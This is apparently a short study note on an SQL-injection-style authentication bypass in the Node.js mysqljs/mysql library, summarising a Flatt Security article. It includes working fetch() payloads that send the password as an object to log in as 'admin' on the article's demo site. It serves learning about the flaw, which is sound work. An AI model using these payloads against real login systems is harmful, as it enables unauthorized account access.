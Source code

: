 ##### mysqljs/mysql in Node js
![[Pasted image 20240417114355.png]]


https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4

~~~
fetch("https://sqli.blog-demo.flatt.training/auth", {
  headers: {
    "content-type": "application/x-www-form-urlencoded",
  },
  body: "username=admin&password=12341234test",
  method: "POST",
  mode: "cors",
  credentials: "include",
})
.then((r) => r.text())
.then((r) => {
  console.log(r);
});
~~~

The above is Normal auth req using fetch

to Bypass authentication ==change the `password` parameter to `password[password]` to make the parameter as `Object` and not `String`.==


or 

~~~
data = {
  username: "admin",
  password: {
    password: 1,
  },
};
fetch("https://sqli.blog-demo.flatt.training/auth", {
  headers: {
    "content-type": "application/json",
  },
  body: JSON.stringify(data),
  method: "POST",
  mode: "cors",
  credentials: "include",
})
.then((r) => r.text())
.then((r) => {
  console.log(r);
});
~~~
